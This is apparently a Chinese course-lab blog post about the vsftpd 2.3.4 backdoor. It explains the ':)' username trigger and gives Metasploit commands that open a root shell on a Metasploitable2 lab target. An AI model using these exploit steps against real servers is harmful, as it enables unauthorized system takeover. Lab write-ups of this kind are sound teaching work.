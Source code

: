 ```yaml
---
layout: default
title: "vsftpd漏洞利用"
date: 2018-3-10
categories: 漏洞利用
tags: 漏洞利用
description: 在特定版本的vsftpd服务器程序中，被人恶意植入代码，当用户名以”:)”为结尾，服务器就会在6200端口监听，并且能够执行任意代码。Vsftpd version2到2.3.4存在后门漏洞，攻击者可以通过该漏洞获取root权限。
---
```


### 0x01 概述
&emsp;&emsp;这是我的课程实验之一，在这里我把整个步骤和思路都复现一下。<br>vsftpd（very secure FTP daemon）是一个UNIX类操作系统上运行的服务器，它可以运行在诸如Linux、BSD、Solaris、HP-UNIX等系统上，是一个完全免费的开源FTP服务器软件，支持很多其他的FTP服务器所不支持的特性。比如：非常高的安全性需求、带宽限制、良好的可伸缩性、可创建虚拟用户、支持IPv6、速率高等。<br>

### 0x02 漏洞利用
&emsp;&emsp;我们的实验环境是PC1：metasploitable2，PC2：Kali Linux

* 打开靶机，查看IP地址 `172.16.1.153`:
![pic1](http://101.132.99.228/post_img/vsftpd1.png)

2. 打开渗透机，查看IP地址`172.16.1.152`:
![pic2](http://101.132.99.228/post_img/vsftpd2.png)

3. 打开渗透机上的`msfconsole`，搜索`vsftpd`相关漏洞，看到`vsftpd_234_backdoor`
![pic3](http://101.132.99.228/post_img/vsftpd3.png)

4. 输入`use exploit/unix/ftp/vsftp_234_bckdoor` 来使用该模块
![pic4](http://101.132.99.228/post_img/vsftpd4.png)

5. 设置靶机IP `set RHOST 172.16.1.153`执行`exploit`
![pic5](http://101.132.99.228/post_img/vsftpd5.png)

6. 获取shell权限成功 `uname -a`查看内核 `whoami`查看当前登陆用户
![pic6](http://101.132.99.228/post_img/vsftpd6.png)
